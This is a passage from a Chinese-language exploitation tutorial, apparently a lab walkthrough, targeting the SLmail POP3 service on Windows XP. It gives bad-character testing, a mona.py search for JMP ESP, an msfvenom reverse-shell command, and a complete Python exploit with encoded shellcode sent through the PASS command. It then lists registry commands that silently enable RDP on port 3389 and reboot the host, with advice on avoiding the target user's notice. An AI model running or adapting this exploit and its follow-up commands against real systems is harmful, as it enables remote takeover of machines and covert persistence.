b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff\x00")
buffer = b'A'* 2606 + b'BBBB' + badchars
try:
print("Sending buffer...")
s.connect((ip, port))
print(s.recv(1024))
s.send(b'USER test\r\n')
data = s.recv(1024)
s.send(b'PASS ' + buffer + b'\r\n')
data = s.recv(1024)
s.send(b'Quit\r\n')
print(s.recv(1024).decode())
except Exception as e:
print(e)
finally:
s.close()在运行完脚本后，我们的程序将再次「paused」，这时右键「ESP」选择
「Follow in Dump」切换显示的方式默认当然选择为「Disassemble」，切换「Hex」选择
「Hex/ASCII（16bytes）」这个时候能清晰看见，在内存中存放的二进制，\x01,\x02…\xAA
我们可以发现\x0a，没有被正确显示，同时其后的字符也消失了
这个时候我们需要剔除\x0a这个坏字符，再次进行测试通过剔除坏字符我们知道了
\x0a，\x0d和\x00是不能在shellcode中出现的
定位跳转地址
EIP的修改方法和定位已经被找到，但具体修改成什么，这是一个问题。前面的操作，我们发现，在EIP后填写的内容将会修改ESP，如果我们能跳转到ESP，那么问题将得到有效推动。我们知道，JMP命令可以实现程序的跳转，跳转到ESP的命令，便是JMP ESP。但是我们无法直接使用这个指令，原因是我们当前只是获得了修改EIP的权限，而不是修改程序代码的权限。EIP能指向需要执行的内存地址，而不是存储指令。
一条弯曲的道路由此展开：我们可以通过修改EIP跳转到存放有JMP ESP指令的内存地址，实现目的。
图解 EIP (JMP ESP) -> ESP (Shell Code)
现在问题变换为找到存放有JMP ESP指令的内存地址，为了使攻击具有普遍使用性。这个指令地址应该是静态的，每次系统的重启都不会改变，另外这个地址不会因为软件重装而改变。因此，我们锁定的对象成了开机启动的服务，而且这个服务拥有固定的内存地址。在内存中存放的执行代码都是二进制，因此我们的JMP ESP需要首先找到对应的二进制代码。接着，我们通过搜索系统服务的库，找到存放有该二进制的地址，进行跳转。
指令的转换
1
2
3
4/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000 FFE4 jmp esp
nasm > quit通过nasm_shll.rb这个工具，我们知道了
jmp esp对应的二进制为FFE4指令的搜索
这里需要使用到
mona.py进行辅佐首先解压
mona.master复制mona.py到C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands相关目录「调试slmail」(保持「Paused」状态)
1
!mona modules // 检索所有的模块 (查询Rebas-False, SafeSEH-False, ASLR-False, NXCompat-False, OS Dll-True )
- rebase: 重启后地址是否修改
- safeSEH: 保护机制
- ASLR: 保护机制
- NXCompat: 数据执行保护DEP
- DLL-true: 是否为库模块

选择相应的模块进行查询
1
!mona find -s "\xff\xe4" -m SLMFC.DLL // 查询模块是否存在`FFE4 (jmp esp)`汇编指令
双击选中的条目 （例如:
0x5f4a358f）右击选择「Disassemble」进行切换
能够显示具体的反汇编代码
小结：至此，我们知道了
shellcode可以填写在ESP中，EIP通过指向地址0x5F4a358F跳转到ESP
实现控制
生成shellcode控制命令行
shellcode是一小段安置在载荷中的恶意代码，其目的是对系统进行漏洞利用。之所有叫shellcode是因为使用者，通常是通过它来获得shell，进而对系统进行控制。事实上，shellcode不仅仅只能返回一个shell，就如豆浆机它可以用来打碎黄豆得到豆浆，但我们也可以放入黑豆/红豆/花生等等材料，获得所需的产物。shellcode是网络安全中十分有趣的一环我们将在以后的章节展开。这次的目的是获得豆浆，哦不，是获得shell，我们看看实际操作需要怎样进行。
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=threadR -b "\x00\x0a\x0d" -f python3* LHOST, localhost // 本地主机地址 * LPORT, localport // 打开本地主机监听端口 * EXITFUNC=thread // 退出线程, 而不是进程 // shellcode执行结束后，exitprocss方式将退出整个进程 // 导致邮件服务崩溃 (表现为 退出脚本后, 目标主机的SLmail将同时结束进程) * R, raw // 二进制显示 * -p, --payload // 选择的载荷 * -b, --bad-chars [list] // 坏字符 * -f, --format [format] // 语言格式 * msfvenom --list formats // 查询支持的语言格式
buffer = b'A'* 2606 + b"\x8f\x35\x4a\x5f" + b"\x90" * 8 + shellcodeA2606，作为前面触发溢出的载荷JMP ESP在系统库中的地址是0x5F4a358F，X86工作在小端，因此高位字节写在低位- 增添不操作空字符
\x90规避CPU将前置代码覆盖过滤, 提高执行的稳定性
通过对
载荷，ESP地址，（填充\x90）和shellcode的缝合，我们的EXP基本完成启动
SLmail服务，不启动调试工具1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51#!/usr/bin/env python3
#-*-coding: utf-8-*-
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.0.2.16'
port = 110
buf = b""
buf += b"\xbd\x33\xa8\x87\x97\xd9\xc7\xd9\x74\x24\xf4\x5f\x2b"
buf += b"\xc9\xb1\x52\x83\xef\xfc\x31\x6f\x0e\x03\x5c\xa6\x65"
buf += b"\x62\x5e\x5e\xeb\x8d\x9e\x9f\x8c\x04\x7b\xae\x8c\x73"
buf += b"\x08\x81\x3c\xf7\x5c\x2e\xb6\x55\x74\xa5\xba\x71\x7b"
buf += b"\x0e\x70\xa4\xb2\x8f\x29\x94\xd5\x13\x30\xc9\x35\x2d"
buf += b"\xfb\x1c\x34\x6a\xe6\xed\x64\x23\x6c\x43\x98\x40\x38"
buf += b"\x58\x13\x1a\xac\xd8\xc0\xeb\xcf\xc9\x57\x67\x96\xc9"
buf += b"\x56\xa4\xa2\x43\x40\xa9\x8f\x1a\xfb\x19\x7b\x9d\x2d"
buf += b"\x50\x84\x32\x10\x5c\x77\x4a\x55\x5b\x68\x39\xaf\x9f"
buf += b"\x15\x3a\x74\xdd\xc1\xcf\x6e\x45\x81\x68\x4a\x77\x46"
buf += b"\xee\x19\x7b\x23\x64\x45\x98\xb2\xa9\xfe\xa4\x3f\x4c"
buf += b"\xd0\x2c\x7b\x6b\xf4\x75\xdf\x12\xad\xd3\x8e\x2b\xad"
buf += b"\xbb\x6f\x8e\xa6\x56\x7b\xa3\xe5\x3e\x48\x8e\x15\xbf"
buf += b"\xc6\x99\x66\x8d\x49\x32\xe0\xbd\x02\x9c\xf7\xc2\x38"
buf += b"\x58\x67\x3d\xc3\x99\xae\xfa\x97\xc9\xd8\x2b\x98\x81"
buf += b"\x18\xd3\x4d\x05\x48\x7b\x3e\xe6\x38\x3b\xee\x8e\x52"
buf += b"\xb4\xd1\xaf\x5d\x1e\x7a\x45\xa4\xc9\x8f\x9a\xa4\x06"
buf += b"\xf8\x98\xa8\x09\xa4\x15\x4e\x43\x44\x70\xd9\xfc\xfd"
buf += b"\xd9\x91\x9d\x02\xf4\xdc\x9e\x89\xfb\x21\x50\x7a\x71"
buf += b"\x31\x05\x8a\xcc\x6b\x80\x95\xfa\x03\x4e\x07\x61\xd3"
buf += b"\x19\x34\x3e\x84\x4e\x8a\x37\x40\x63\xb5\xe1\x76\x7e"
buf += b"\x23\xc9\x32\xa5\x90\xd4\xbb\x28\xac\xf2\xab\xf4\x2d"
buf += b"\xbf\x9f\xa8\x7b\x69\x49\x0f\xd2\xdb\x23\xd9\x89\xb5"
buf += b"\xa3\x9c\xe1\x05\xb5\xa0\x2f\xf0\x59\x10\x86\x45\x66"
buf += b"\x9d\x4e\x42\x1f\xc3\xee\xad\xca\x47\x0e\x4c\xde\xbd"
buf += b"\xa7\xc9\x8b\x7f\xaa\xe9\x66\x43\xd3\x69\x82\x3c\x20"
buf += b"\x71\xe7\x39\x6c\x35\x14\x30\xfd\xd0\x1a\xe7\xfe\xf0"
buffer = b'A'* 2606 + b"\x8f\x35\x4a\x5f" + b"\x90" * 8 + buf
try:
print("Sending buffer...")
s.connect((ip, port))
print(s.recv(1024))
s.send(b'USER test\r\n')
data = s.recv(1024)
s.send(b'PASS ' + buffer + b'\r\n')
except Exception as e:
print(e)
finally:
s.close()
print('close')本地主机执行脚本
本地主机通过nc连接，反向连接获得的shell，获得windows XP 目标主机的shell
shellcode生成加入了EXITFUNC=thread，即使现在推出目标主机shell，重新执行也能重新获得shell
控制图形界面
图形界面的控制是不推介的，理由很简单，windows的图形界面控制，容易被目标用户察觉。因为主机获得windows的图形界面，会对远程主机进行锁屏，操作的时候如果有用户在旁，感知是十分明显的。windows的设置不像linux，软件的配置并不完全独立，而是通过注册列表这个大家伙统一管理。因此对于打开图形界面，我们的思路也可以通过修改注册列表来实现，在没有图形界面的接触前提下，实现防火墙端口开发等操作。
具体代码如下显示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36cd\
// 将"Windows Registry Editor Version 5.00" 写入文件 `3389.reg`
C:\>echo Windows Registry Editor Version 5.00>3389.reg
echo Windows Registry Editor Version 5.00>3389.reg
// 进入终端服务的注册列表路径
C:\>echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg
// 防止防火墙屏蔽
C:\>echo "fDenyTSConnections"=dword:00000000>>3389.reg
echo "fDenyTSConnections"=dword:00000000>>3389.reg
// 进入rdpwd的TCP端口路径
C:\>echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM Server\Wds\rdpwd\Tds\tcp]>>3389.reg
// 开启端口3389 (hex)0d3d ==> (Dec)3389
C:\>echo "PortNumber"=dword:00000d3d>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
// 进入WinStations RDP TCP路径
C:\>echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
// 开启端口3389 (hex)0d3d ==> (Dec)3389
C:\>echo "PortNumber"=dword:00000d3d>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
// 静默导入注册列表 [ref](https://ss64.com/nt/regedit.html)
C:\>regedit /s 3389.reg
regedit /s 3389.reg
// 立即重启主机
C:\>shutdown -r -t 0使用
RDP协议，配置IP地址，用户名，密码获得windows的GUI界面，得到全面操作的权限